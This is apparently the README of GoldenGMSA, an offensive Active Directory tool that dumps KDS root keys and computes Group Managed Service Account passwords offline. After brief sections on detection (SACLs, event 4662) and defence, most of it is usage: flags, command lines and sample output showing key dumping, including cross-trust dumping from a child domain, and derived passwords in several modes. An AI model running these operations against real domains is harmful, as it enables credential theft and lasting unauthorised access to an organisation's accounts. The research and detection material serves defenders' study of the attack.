

# GoldenGMSA

GoldenGMSA is a C# tool for abusing Group Managed Service Accounts (gMSA) in Active Directory.

This tool is based on research by Yuval Gordon ([@YuG0rd](https://twitter.com/YuG0rd)).

More details are available at the post [Introducing the Golden GMSA Attack](https://www.semperis.com/blog/golden-gmsa-attack/).

## Detecting a Golden GMSA attack
The compromise of a KDS root key does not generate security events by default. Defenders should configure a SACL on the KDS root key objects for everyone reading the msKds-RootKeyData attribute. Once the system access control list (SACL) is configured, any attempt to dump the key data of a KDS root key will generate security event 4662 on the DC where the object type is msKds-ProvRootKey and the account name is not a DC (although it can be), as demonstrated in the following screenshot:

The SACL can be placed on the Master Root Keys container and inherited to all msKds-ProvRootKey objects. A SACL should also be added to audit SACL changes to the Master Root Keys container and msKds-ProvRootKey objects.

## Detecting a cross trust Golden GMSA attack
The compromise of a KDS root key is not visible from a trusting domain. Defenders should there configure a SACL on the gMSA for everyone reading the msDS-ManagedPasswordId attribute. Once the system access control list (SACL) is configured, any attempt to read the attribute required for an attack will generate security event 4662 on the DC where the object type is msDS-GroupManagedServiceAccount, the property read is msDS-ManagedPasswordId {0e78295a-c6d3-0a40-b491-d62251ffa0a6}, and the account is not from the gMSA's own domain, as demonstrated in the following screenshot:

The SACL can be placed on the Managed Service Accounts container and inherited to all msDS-GroupManagedServiceAccount objects.

## Defending against Golden GMSA attacks
Group Managed Service Accounts are a great Active Directory feature that mitigates some risks associated with service accounts, such as Kerberoasting attacks. However, the passwords associated with gMSAs are generated using inputs that cannot be rotated if compromised, allowing attackers with high privileges to dump KDS root keys and generate the passwords of the associated gMSAs offline for as long as they exist. 

Defenders should monitor abnormal access to KDS root keys, such as non DCs reading the msKds-ProvRootKey attribute and abnormal logon events linked to gMSA accounts. 

## Usage

### Query gMSAs in a domain (gmsainfo):

This operation enumerates gMSAs in a domain and lists their name, SID, associated KDS Root Key, and a Base64 encoded blob that represents their msds-ManagedPasswordID.

 - `-s, --sid <SID>`:    The SID of the gMSA account to query (optional)
 - `-d, --domain <domain/DC name>`:    Domain/DC to query for gMSA object (optional)

This operation does not require high privileges.

Example #1 - Enumerate all gMSAs:

    C:\Users\administrator\Desktop>GoldenGMSA.exe gmsainfo
    SamAccountName:         gmsa1$
    ObjectSID:              S-1-5-21-1437000690-1664695696-1586295871-1112
    RootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb  
    msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAAubjlRlfK5gHoufuyZ+St6wAAAAAiAAAAIgAAAHMAaABlAG4AYQBuAGkAZwBhAG4AcwAuAGwAYQBiAHMAAABzAGgAZQBuAGEAbgBpAGcAYQBuAHMALgBsAGEAYgBzAAAA
    ----------------------------------------------
    
    SamAccountName:         gmsa2$
    ObjectSID:              S-1-5-21-1437000690-1664695696-1586295871-1113
    RootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb   
    msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAAubjlRlfK5gHoufuyZ+St6wAAAAAiAAAAIgAAAHMAaABlAG4AYQBuAGkAZwBhAG4AcwAuAGwAYQBiAHMAAABzAGgAZQBuAGEAbgBpAGcAYQBuAHMALgBsAGEAYgBzAAAA
    
    ----------------------------------------------

Example #2 - Query for a specific gMSA:

    C:\Users\administrator\Desktop>GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112
    SamAccountName:         gmsa1$
    ObjectSID:              S-1-5-21-1437000690-1664695696-1586295871-1112
    RootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb    
    msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAAubjlRlfK5gHoufuyZ+St6wAAAAAiAAAAIgAAAHMAaABlAG4AYQBuAGkAZwBhAG4AcwAuAGwAYQBiAHMAAABzAGgAZQBuAGEAbgBpAGcAYQBuAHMALgBsAGEAYgBzAAAA
    
    ----------------------------------------------

Example #3 - Enumerate all gMSAs in a parent domain, executed from a child domain:

    C:\Users\administrator\Desktop>GoldenGMSA.exe gmsainfo --domain root.local
    SamAccountName:         gmsa1$
    ObjectSID:              S-1-5-21-1437000690-1664695696-1586295871-1112
    RootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb    
    msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAAubjlRlfK5gHoufuyZ+St6wAAAAAiAAAAIgAAAHMAaABlAG4AYQBuAGkAZwBhAG4AcwAuAGwAYQBiAHMAAABzAGgAZQBuAGEAbgBpAGcAYQBuAHMALgBsAGEAYgBzAAAA
    
    ----------------------------------------------
### Dump KDS Root Keys (kdsinfo)

This operation dumps the KDS Root Keys to be used for gMSA password generation. You can dump all KDS Root Keys or a single key specified by its GUID.

The output is a Based64 encoded blob that represents the KDS Root Key.

 - `-g, --guid <KDS Root Key Guid>`:    The GUID of the KDS Root Key object (optional)
 - `-f, --forest <forest/domain name>`:    Forest/domain to query for the KDS Root Key Object (optional)

**Without '--forest' it queries the forest root domain and requires Enterprise Admins or Domain Admins privileges in the forest root domain, or SYSTEM privileges on a forest root Domain Controller.**

**When executed from a child domain with '--forest' pointing to the child domain, it requires SYSTEM privileges on the child Domain Controller, and will dump keys of the parent domain too.**

Example #1 - Dump all KDS Root Keys: 

    C:\Users\administrator\Desktop>GoldenGMSA.exe kdsinfo
    Guid:           46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
    Base64 blob:    AQAAALm45UZXyuYB6Ln7smfkresAAAAAAQAAAAAAAAAkAAAAUwBQADgAMAAwAF8AMQAwADgAXwBDAFQAUgBfAEgATQBBAEMAHgAAAAAAAAABAAAADgAAAAAAAABTAEgAQQA1ADEAMgAAAAAAAAAEAAAARABIAAwCAAAMAgAAREhQTQABAACHqOYdtLZmPP+70ZxlGVmZjO72CGYN0PJdLO7UQ147AOAN+PHWGVfU+vffRWGyqjAWw9kRNAlvqjv0KW2DDpp8IJ4MZJdRer1aip0wa89n7ZH55nJbR1jAIuCx70J1v3tsW/wR1F+QiLlB9U6x5Zu4vDmgvxIwf1xP23DFgbI/drY6yuHKpreQLVJSZzVIig7xPG2aUb+kqzrYNHeWUk2O9qFntaQYJdln4UTlFAVkJRzKy4PmtIb2s8o/eXFQYCbAuFf2iZYoVt7UAQq9C+Yhw6OWClTnEMN18mN11wFBA6S1QzDBmK8SYRbSJ24RcV9pOHf61+8JytsJSukeGhWXP7Msm3MTTQsud1BmYO29SEynsY8h7yBUB/R5OhoLoSUQ28FQd75GP/9P7UqsC7VVvjpsGwxrR7G8N3O/foxvYpASKPjCjLsYpVrjE0EACmUBlvkxx3pX8t30Y+Xp7BRLd33mKqq4qGKKw3bSgtbtOGTmeYJCjryDHRQ0j28vkZO1BFrydnFk4d/JZ8H7Py5VpL0b/+g7nIDQUrmF0YLqCtsqO3MT0/4UyEhLHgUliLm30rvS3wFhmezQbhVXzQkVszU7u2Tg7Dd/0Cg3DfkrUseJFCjNxn62GEtSPR2yRsMvYweEkPAO+NZH0UjUeVRRXiMnz++YxYJmS0wPbMQWWQACAAAACAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAGYAAABDAE4APQBEAEMAMQAsAE8AVQA9AEQAbwBtAGEAaQBuACAAQwBvAG4AdAByAG8AbABsAGUAcgBzACwARABDAD0AcwBoAGUAbgBhAG4AaQBnAGEAbgBzACwARABDAD0AbABhAGIAcwAw2JwZByTYAd4g7EezI9gBAAAAAAAAAABAAAAAAAAAAMn65paJq+hm1H2aXngbqY9HR5PVxR49PTzGG0XyiK8yqMABBrnHRDigfbXtD3OehGNuXVRWSE70SM0R7djG2/M=
    ----------------------------------------------
    
    Guid:           de48068a-4f1e-a238-87fc-d89fbf8941f1
    Base64 blob:    AQAAAIoGSN4eTziih/zYn7+JQfEAAAAAAQAAAAAAAAAkAAAAUwBQADgAMAAwAF8AMQAwADgAXwBDAFQAUgBfAEgATQBBAEMAHgAAAAAAAAABAAAADgAAAAAAAABTAEgAQQA1ADEAMgAAAAAAAAAEAAAARABIAAwCAAAMAgAAREhQTQABAACHqOYdtLZmPP+70ZxlGVmZjO72CGYN0PJdLO7UQ147AOAN+PHWGVfU+vffRWGyqjAWw9kRNAlvqjv0KW2DDpp8IJ4MZJdRer1aip0wa89n7ZH55nJbR1jAIuCx70J1v3tsW/wR1F+QiLlB9U6x5Zu4vDmgvxIwf1xP23DFgbI/drY6yuHKpreQLVJSZzVIig7xPG2aUb+kqzrYNHeWUk2O9qFntaQYJdln4UTlFAVkJRzKy4PmtIb2s8o/eXFQYCbAuFf2iZYoVt7UAQq9C+Yhw6OWClTnEMN18mN11wFBA6S1QzDBmK8SYRbSJ24RcV9pOHf61+8JytsJSukeGhWXP7Msm3MTTQsud1BmYO29SEynsY8h7yBUB/R5OhoLoSUQ28FQd75GP/9P7UqsC7VVvjpsGwxrR7G8N3O/foxvYpASKPjCjLsYpVrjE0EACmUBlvkxx3pX8t30Y+Xp7BRLd33mKqq4qGKKw3bSgtbtOGTmeYJCjryDHRQ0j28vkZO1BFrydnFk4d/JZ8H7Py5VpL0b/+g7nIDQUrmF0YLqCtsqO3MT0/4UyEhLHgUliLm30rvS3wFhmezQbhVXzQkVszU7u2Tg7Dd/0Cg3DfkrUseJFCjNxn62GEtSPR2yRsMvYweEkPAO+NZH0UjUeVRRXiMnz++YxYJmS0wPbMQWWQACAAAACAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAGYAAABDAE4APQBEAEMAMQAsAE8AVQA9AEQAbwBtAGEAaQBuACAAQwBvAG4AdAByAG8AbABsAGUAcgBzACwARABDAD0AcwBoAGUAbgBhAG4AaQBnAGEAbgBzACwARABDAD0AbABhAGIAcwBAvmJu9yfYATjrqJyjJ9gBAAAAAAAAAABAAAAAAAAAABdIN099AivGEcwS9xmMOCWRQHfZutwkL71dR6FoFbG73QxIO6F462BLn52XzlR573KxKA7BGo4EN/vuvWFp5qQ=
    ----------------------------------------------

Example #2 - Dump a specific KDS Root Key: 

    C:\Users\administrator\Desktop>GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
    Guid:           46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
    Base64 blob:    AQAAALm45UZXyuYB6Ln7smfkresAAAAAAQAAAAAAAAAkAAAAUwBQADgAMAAwAF8AMQAwADgAXwBDAFQAUgBfAEgATQBBAEMAHgAAAAAAAAABAAAADgAAAAAAAABTAEgAQQA1ADEAMgAAAAAAAAAEAAAARABIAAwCAAAMAgAAREhQTQABAACHqOYdtLZmPP+70ZxlGVmZjO72CGYN0PJdLO7UQ147AOAN+PHWGVfU+vffRWGyqjAWw9kRNAlvqjv0KW2DDpp8IJ4MZJdRer1aip0wa89n7ZH55nJbR1jAIuCx70J1v3tsW/wR1F+QiLlB9U6x5Zu4vDmgvxIwf1xP23DFgbI/drY6yuHKpreQLVJSZzVIig7xPG2aUb+kqzrYNHeWUk2O9qFntaQYJdln4UTlFAVkJRzKy4PmtIb2s8o/eXFQYCbAuFf2iZYoVt7UAQq9C+Yhw6OWClTnEMN18mN11wFBA6S1QzDBmK8SYRbSJ24RcV9pOHf61+8JytsJSukeGhWXP7Msm3MTTQsud1BmYO29SEynsY8h7yBUB/R5OhoLoSUQ28FQd75GP/9P7UqsC7VVvjpsGwxrR7G8N3O/foxvYpASKPjCjLsYpVrjE0EACmUBlvkxx3pX8t30Y+Xp7BRLd33mKqq4qGKKw3bSgtbtOGTmeYJCjryDHRQ0j28vkZO1BFrydnFk4d/JZ8H7Py5VpL0b/+g7nIDQUrmF0YLqCtsqO3MT0/4UyEhLHgUliLm30rvS3wFhmezQbhVXzQkVszU7u2Tg7Dd/0Cg3DfkrUseJFCjNxn62GEtSPR2yRsMvYweEkPAO+NZH0UjUeVRRXiMnz++YxYJmS0wPbMQWWQACAAAACAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAGYAAABDAE4APQBEAEMAMQAsAE8AVQA9AEQAbwBtAGEAaQBuACAAQwBvAG4AdAByAG8AbABsAGUAcgBzACwARABDAD0AcwBoAGUAbgBhAG4AaQBnAGEAbgBzACwARABDAD0AbABhAGIAcwAw2JwZByTYAd4g7EezI9gBAAAAAAAAAABAAAAAAAAAAMn65paJq+hm1H2aXngbqY9HR5PVxR49PTzGG0XyiK8yqMABBrnHRDigfbXtD3OehGNuXVRWSE70SM0R7djG2/M=
    ----------------------------------------------

Example #3 - Dump all KDS Root Keys including those from a parent domain, initiated from a child domain (requires SYSTEM privileges on the child Domain Controller to obtain parent domain keys): 

    C:\Users\administrator\Desktop>GoldenGMSA.exe kdsinfo --forest child.root.local
    Guid:           3ee82133-57c5-a091-6316-ae4e38eeba2a
    Base64 blob:    AQAAADMh6D7FV5GgYxauTjjuuioAAAAAAQAAAAAAAAAkAAAAUwBQADgAMAAwAF8AMQAwADgAXwBDAFQAUgBfAEgATQBBAEMAHgAAAAAAAAABAAAADgAAAAAAAABTAEgAQQA1ADEAMgAAAAAAAAAEAAAARABIAAwCAAAMAgAAREhQTQABAACHqOYdtLZmPP+70ZxlGVmZjO72CGYN0PJdLO7UQ147AOAN+PHWGVfU+vffRWGyqjAWw9kRNAlvqjv0KW2DDpp8IJ4MZJdRer1aip0wa89n7ZH55nJbR1jAIuCx70J1v3tsW/wR1F+QiLlB9U6x5Zu4vDmgvxIwf1xP23DFgbI/drY6yuHKpreQLVJSZzVIig7xPG2aUb+kqzrYNHeWUk2O9qFntaQYJdln4UTlFAVkJRzKy4PmtIb2s8o/eXFQYCbAuFf2iZYoVt7UAQq9C+Yhw6OWClTnEMN18mN11wFBA6S1QzDBmK8SYRbSJ24RcV9pOHf61+8JytsJSukeGhWXP7Msm3MTTQsud1BmYO29SEynsY8h7yBUB/R5OhoLoSUQ28FQd75GP/9P7UqsC7VVvjpsGwxrR7G8N3O/foxvYpASKPjCjLsYpVrjE0EACmUBlvkxx3pX8t30Y+Xp7BRLd33mKqq4qGKKw3bSgtbtOGTmeYJCjryDHRQ0j28vkZO1BFrydnFk4d/JZ8H7Py5VpL0b/+g7nIDQUrmF0YLqCtsqO3MT0/4UyEhLHgUliLm30rvS3wFhmezQbhVXzQkVszU7u2Tg7Dd/0Cg3DfkrUseJFCjNxn62GEtSPR2yRsMvYweEkPAO+NZH0UjUeVRRXiMnz++YxYJmS0wPbMQWWQACAAAACAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAGAAAABDAE4APQBEAEMAMAAxACwATwBVAD0ARABvAG0AYQBpAG4AIABDAG8AbgB0AHIAbwBsAGwAZQByAHMALABEAEMAPQBoAGEAYwBrAG0AZQAsAEQAQwA9AGwAbwBjAGEAbADwpg95sy/YATuwY6dfL9gBAAAAAAAAAABAAAAAAAAAAJyfhpm+IPcmGYDleskQe8lVdMbB5f90x2fE0UJUS7PuP3BEMHWP9QEnds+okl+10AjFFUbtmh028Df8bzVy86c=
    ----------------------------------------------

### Compute gMSA password (compute)

This operation computes the gMSA password using a KDS Root Key and the gMSA's attributes rather than reading the msDS-ManagedPassword attribute.

The output is the Base64-encoded gMSA password.

 - `-s, --sid <gMSA SID>`:               SID of the gMSA (required)
 - `-k, --kdskey <Base64-encoded blob>`: Base64 encoded KDS Root Key
 - `-p, --pwdid <Base64-encoded blob>`:  Base64 of msds-ManagedPasswordID attribute value
 - `-d, --domain <domain/DC name>`:  Domain/DC to query for gMSA object
 - `-f, --forest <forest/domain name>`:  Forest/domain to query for the KDS Root Key Object

#### Lazy mode (requires privileged access to the domain)

If the gMSA's SID is the only argument provided, the tool locates the specified gMSA, reads the associated KDS Root Key, and then computes the gMSA password.
**This mode requires high privileges.**

- `--sid <gMSA SID>`: SID of the target gMSA.

Example:

    C:\Users\administrator\Desktop>GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112
	
    Base64 Encoded Password:        ZSWQIz5mLbEcw6mm8J49DWCADxDT703UPFLbRftDTqE7WzAfmd7mQt75o1ZvIpTqGo5okZycD2rZgBdVu9wbTxIQL6H4hbAcODW43Yv0tXxo0IYajhCiyrJ7Vvchs4dWUtCED/0pOdStxG2H7dSriLgoN62YJushjRIkHGQvK4E5zPvu5dREepOCDuhAE6F1mo33kKtpo7fWvlNgQgYNIvCYqtv4PnYzNkRZYqbMZwhocjkMRFq9WzA5YzYZwj5wgeBmi7Fl2bcm7139AIAIZgUs1XaMEPXnjlFGizH8ry9b9iOsv6YaHWBtktm5ECSVcHGHpLISVk7Rzn2tRvljew==

#### Domain user mode (requires LDAP access)
If the KDS Root Key is provided, but the gMSA's msds-ManagedPasswordID blob is not, the tool retrieves the attribute using LDAP, and then computes the gMSA password. A low-privileged domain user and LDAP connectivity are required.

- `--sid <gmsaSID>`:                Sets the SID of the target gMSA.
- `--kdskey <Base64 encoded blob>`: Base64-encoded KDS Root Key.

Example:

    C:\Users\administrator\Desktop>GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB6Ln7smfkresAAAAAAQAAAAAAAAAkAAAAUwBQADgAMAAwAF8AMQAwADgAXwBDAFQAUgBfAEgATQBBAEMAHgAAAAAAAAABAAAADgAAAAAAAABTAEgAQQA1ADEAMgAAAAAAAAAEAAAARABIAAwCAAAMAgAAREhQTQABAACHqOYdtLZmPP+70ZxlGVmZjO72CGYN0PJdLO7UQ147AOAN+PHWGVfU+vffRWGyqjAWw9kRNAlvqjv0KW2DDpp8IJ4MZJdRer1aip0wa89n7ZH55nJbR1jAIuCx70J1v3tsW/wR1F+QiLlB9U6x5Zu4vDmgvxIwf1xP23DFgbI/drY6yuHKpreQLVJSZzVIig7xPG2aUb+kqzrYNHeWUk2O9qFntaQYJdln4UTlFAVkJRzKy4PmtIb2s8o/eXFQYCbAuFf2iZYoVt7UAQq9C+Yhw6OWClTnEMN18mN11wFBA6S1QzDBmK8SYRbSJ24RcV9pOHf61+8JytsJSukeGhWXP7Msm3MTTQsud1BmYO29SEynsY8h7yBUB/R5OhoLoSUQ28FQd75GP/9P7UqsC7VVvjpsGwxrR7G8N3O/foxvYpASKPjCjLsYpVrjE0EACmUBlvkxx3pX8t30Y+Xp7BRLd33mKqq4qGKKw3bSgtbtOGTmeYJCjryDHRQ0j28vkZO1BFrydnFk4d/JZ8H7Py5VpL0b/+g7nIDQUrmF0YLqCtsqO3MT0/4UyEhLHgUliLm30rvS3wFhmezQbhVXzQkVszU7u2Tg7Dd/0Cg3DfkrUseJFCjNxn62GEtSPR2yRsMvYweEkPAO+NZH0UjUeVRRXiMnz++YxYJmS0wPbMQWWQACAAAACAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAGYAAABDAE4APQBEAEMAMQAsAE8AVQA9AEQAbwBtAGEAaQBuACAAQwBvAG4AdAByAG8AbABsAGUAcgBzACwARABDAD0AcwBoAGUAbgBhAG4AaQBnAGEAbgBzACwARABDAD0AbABhAGIAcwAw2JwZByTYAd4g7EezI9gBAAAAAAAAAABAAAAAAAAAAMn65paJq+hm1H2aXngbqY9HR5PVxR49PTzGG0XyiK8yqMABBrnHRDigfbXtD3OehGNuXVRWSE70SM0R7djG2/M=
    
    Base64 Encoded Password:        ZSWQIz5mLbEcw6mm8J49DWCADxDT703UPFLbRftDTqE7WzAfmd7mQt75o1ZvIpTqGo5okZycD2rZgBdVu9wbTxIQL6H4hbAcODW43Yv0tXxo0IYajhCiyrJ7Vvchs4dWUtCED/0pOdStxG2H7dSriLgoN62YJushjRIkHGQvK4E5zPvu5dREepOCDuhAE6F1mo33kKtpo7fWvlNgQgYNIvCYqtv4PnYzNkRZYqbMZwhocjkMRFq9WzA5YzYZwj5wgeBmi7Fl2bcm7139AIAIZgUs1XaMEPXnjlFGizH8ry9b9iOsv6YaHWBtktm5ECSVcHGHpLISVk7Rzn2tRvljew==

#### Offline mode

If all the required infomration is provided, the tool generates the password completely offline.

- `--sid <gmsaSID>`:                Sets the SID of the target gMSA.
- `--kdskey <Base64 encoded blob>`: Base64-encoded KDS Root Key.
- `--pwdid <Base64 encoded blob>`:  Base64-encoded msds-ManagedPasswordID attribute of the target gMSA.

Example:

    C:\Users\administrator\Desktop>GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB6Ln7smfkresAAAAAAQAAAAAAAAAkAAAAUwBQADgAMAAwAF8AMQAwADgAXwBDAFQAUgBfAEgATQBBAEMAHgAAAAAAAAABAAAADgAAAAAAAABTAEgAQQA1ADEAMgAAAAAAAAAEAAAARABIAAwCAAAMAgAAREhQTQABAACHqOYdtLZmPP+70ZxlGVmZjO72CGYN0PJdLO7UQ147AOAN+PHWGVfU+vffRWGyqjAWw9kRNAlvqjv0KW2DDpp8IJ4MZJdRer1aip0wa89n7ZH55nJbR1jAIuCx70J1v3tsW/wR1F+QiLlB9U6x5Zu4vDmgvxIwf1xP23DFgbI/drY6yuHKpreQLVJSZzVIig7xPG2aUb+kqzrYNHeWUk2O9qFntaQYJdln4UTlFAVkJRzKy4PmtIb2s8o/eXFQYCbAuFf2iZYoVt7UAQq9C+Yhw6OWClTnEMN18mN11wFBA6S1QzDBmK8SYRbSJ24RcV9pOHf61+8JytsJSukeGhWXP7Msm3MTTQsud1BmYO29SEynsY8h7yBUB/R5OhoLoSUQ28FQd75GP/9P7UqsC7VVvjpsGwxrR7G8N3O/foxvYpASKPjCjLsYpVrjE0EACmUBlvkxx3pX8t30Y+Xp7BRLd33mKqq4qGKKw3bSgtbtOGTmeYJCjryDHRQ0j28vkZO1BFrydnFk4d/JZ8H7Py5VpL0b/+g7nIDQUrmF0YLqCtsqO3MT0/4UyEhLHgUliLm30rvS3wFhmezQbhVXzQkVszU7u2Tg7Dd/0Cg3DfkrUseJFCjNxn62GEtSPR2yRsMvYweEkPAO+NZH0UjUeVRRXiMnz++YxYJmS0wPbMQWWQACAAAACAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAGYAAABDAE4APQBEAEMAMQAsAE8AVQA9AEQAbwBtAGEAaQBuACAAQwBvAG4AdAByAG8AbABsAGUAcgBzACwARABDAD0AcwBoAGUAbgBhAG4AaQBnAGEAbgBzACwARABDAD0AbABhAGIAcwAw2JwZByTYAd4g7EezI9gBAAAAAAAAAABAAAAAAAAAAMn65paJq+hm1H2aXngbqY9HR5PVxR49PTzGG0XyiK8yqMABBrnHRDigfbXtD3OehGNuXVRWSE70SM0R7djG2/M= --pwdid AQAAAEtEU0sCAAAAaAEAABAAAAADAAAAubjlRlfK5gHoufuyZ+St6wAAAAAiAAAAIgAAAHMAaABlAG4AYQBuAGkAZwBhAG4AcwAuAGwAYQBiAHMAAABzAGgAZQBuAGEAbgBpAGcAYQBuAHMALgBsAGEAYgBzAAAA
    
    Base64 Encoded Password:        ZSWQIz5mLbEcw6mm8J49DWCADxDT703UPFLbRftDTqE7WzAfmd7mQt75o1ZvIpTqGo5okZycD2rZgBdVu9wbTxIQL6H4hbAcODW43Yv0tXxo0IYajhCiyrJ7Vvchs4dWUtCED/0pOdStxG2H7dSriLgoN62YJushjRIkHGQvK4E5zPvu5dREepOCDuhAE6F1mo33kKtpo7fWvlNgQgYNIvCYqtv4PnYzNkRZYqbMZwhocjkMRFq9WzA5YzYZwj5wgeBmi7Fl2bcm7139AIAIZgUs1XaMEPXnjlFGizH8ry9b9iOsv6YaHWBtktm5ECSVcHGHpLISVk7Rzn2tRvljew==

#### Cross bi-directional trust lazy mode
With SYSTEM privileges on a child domain, and a parent domain's gMSA SID known, the tool locates the specified gMSA msds-ManagedPasswordID from the parent domain, reads the associated KDS Root Key from the child Domain Controller, and then computes the gMSA password.

**This mode requires SYSTEM privileges on the child Domain Controller.**

 - `-s, --sid <gMSA SID>`:               Sets the SID of the target gMSA.
 - `-d, --domain <forest/parent domain name>`:  Forest/parent domain to query for gMSA object
 - `-f, --forest <child domain/DC name>`:  Child domain/DC to query for the KDS Root Key Object

Example:

    C:\Users\administrator\Desktop>.\GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --domain root.local --forest child.root.local
    
    Base64 Encoded Password:        ZSWQIz5mLbEcw6mm8J49DWCADxDT703UPFLbRftDTqE7WzAfmd7mQt75o1ZvIpTqGo5okZycD2rZgBdVu9wbTxIQL6H4hbAcODW43Yv0tXxo0IYajhCiyrJ7Vvchs4dWUtCED/0pOdStxG2H7dSriLgoN62YJushjRIkHGQvK4E5zPvu5dREepOCDuhAE6F1mo33kKtpo7fWvlNgQgYNIvCYqtv4PnYzNkRZYqbMZwhocjkMRFq9WzA5YzYZwj5wgeBmi7Fl2bcm7139AIAIZgUs1XaMEPXnjlFGizH8ry9b9iOsv6YaHWBtktm5ECSVcHGHpLISVk7Rzn2tRvljew==

## References
 - https://www.semperis.com/blog/golden-gmsa-attack/
